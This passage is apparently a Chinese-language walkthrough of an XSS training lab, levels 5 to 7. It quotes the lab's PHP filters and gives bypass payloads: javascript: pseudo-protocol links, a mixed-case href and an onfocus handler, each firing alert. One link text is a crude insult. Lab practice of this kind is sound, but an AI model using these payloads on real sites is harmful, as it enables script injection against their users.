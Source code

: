 ```php
<script>alert(/xss/)</script>
<input name="keyword" value="<scr_ipt>alert(/xss/)</script>">
```

代审

```php
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

尝试大小写绕过 `o_nfocus=alert(/xss/)` 不起作用  
这里替换字符只是对<script做了检测 可以想到用javascript的**伪协议**来绕过 先找到闭合方式:

```php
"> //
<input name="keyword" value="">"&gt; //成功闭合
```

闭合后在后面重新构造新的语句  
payload:

```php
"> <a href=javascript:alert(/xss/)>傻逼sbf</a> 
```

点击构造出来的超链接 指向 `javascript:alert(/xss/)`

* * *

## less 6

找到闭合方式 "> 可以构造后面的语句

```php
"> <a href=javascript:alert(/xss/)>qwe</a>
<a hr_ef="javascript:alert(/xss/)">qwe</a> //发现href被转义了
```

尝试大小写绕过?  
payload:

```php
"> <a HREf=javascript:alert(/xss/)>qwe</a>
```

成功绕过

* * *

## less 7

```php
<script>alert(/xss/)</script>
<input name="keyword" value="<>alert(/xss/)</>"> //发现script都被替换成空了
```

尝试用" 闭合 发现<>都会被实体化 所以只能采用事件的方式触发alert  
这里我用了onfocus
